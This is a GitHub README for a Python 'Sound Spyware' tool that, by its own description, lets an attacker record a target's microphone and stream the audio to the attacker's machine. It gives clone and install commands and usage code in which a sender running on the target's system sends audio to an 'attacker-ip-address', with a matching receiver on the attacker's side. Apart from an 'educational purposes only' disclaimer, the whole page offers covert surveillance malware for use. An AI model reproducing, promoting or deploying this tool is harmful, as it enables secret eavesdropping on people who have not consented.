 # Sound Spyware

![image](https://drive.google.com/uc?export=download&id=1QIDeHZLSI4raR4RdD3BMUhRqwH58YSUG)

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the sound

## Features

- You can record sound of target
- It streams the target's sound to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/sound-spyware.git && cd sound-spyware
```

```shell
pip install requirements.txt
```

## Usage

Instantiating the class

```python
attacker, target = "attacker-name", "target-name"
soundSpy = SoundIntel(attacker, target)
```

To record the sound of the target's system

```python
secs = 50
audioFile = soundSpy.soundRecord(secs)
```

To stream the sound from the target to the attacker
On target's system

```python
host = "attacker-ip-address"
stream = soundSpy.sender(host)
```

On attacker's system

```python
host = "attacker-ip-address"
stream = soundSpy.receiver(host)
```

## Run

```shell
python sound.py
```

To use the streaming function, first run the software on attacker's system before running on the target's system
